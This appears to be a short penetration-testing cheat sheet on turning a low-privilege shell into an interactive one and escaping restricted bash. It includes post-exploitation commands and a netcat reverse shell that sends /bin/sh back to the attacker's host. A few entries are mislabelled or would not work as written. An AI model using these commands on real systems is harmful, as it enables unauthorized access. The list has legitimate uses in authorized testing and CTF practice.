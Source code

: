 ```yaml
---
legal-banner: true
---
```


### **Introduction**

When you find yourself with a low-privilege shell, upgrading it to a fully interactive shell is crucial. Here’s a guide to making your shell fully interactive, including initial steps and additional tips for a smooth experience.

### **Step 1: Upgrade the Shell**

1.  Check the availability of Python versions:.   
    `which python python2 python3`
	
2.  Upgrade the Shell Using Python 2:  
    `python2 -c 'import pty; pty.spawn("/bin/bash")'`
	
3.  Upgrade the Shell Using Python 3:  
    `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    

### **Step 2: Set PATH and TERM Variables**

Next, set the `PATH` and `TERM` environment variables to ensure proper functionality of shell commands and terminal capabilities:

1.  Set the PATH:  
    `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
2.  Set the TERM:  
    `export TERM=xterm-256color`

### **Step 3: Handle Background Processes**

If you need to suspend the current shell process and bring it to the foreground later, use the following key combinations and commands:

1.  Press `Ctrl + Z` to suspend the current process and return to the parent shell.
2.  Enter raw mode and bring the process back to the foreground:  
    `stty raw -echo; fg`
3.  Reset the terminal settings to a sane state:  
    `reset`

### **Step 4: Set Shell and Terminal Size**

Adjust the terminal window size for better readability and to avoid display issues:

1.  Set the terminal size:  
    `stty columns 200 rows 200`

### **Bypassing Restricted Bash Environments**

Use the following commands to bypass restricted bash environments:

1.  Using Perl:  
    `perl -e 'exec "/bin/sh";'`
2.  Using a shell:  
    `/bin/sh -i`
3.  Using the exec function:  
    `exec "/bin/sh";`
4.  Using echo with os.system:  
    `echo os.system('/bin/bash')`
5.  Using netcat with SSH:  
    `/bin/sh -i`
6.  Using netcat with SSH:  
    `ssh [USER]@[IP-ADRESS] nc $[LOCALIP] 4444 -e /bin/sh`
7.  Exporting TERM:  
    `export TERM=linux`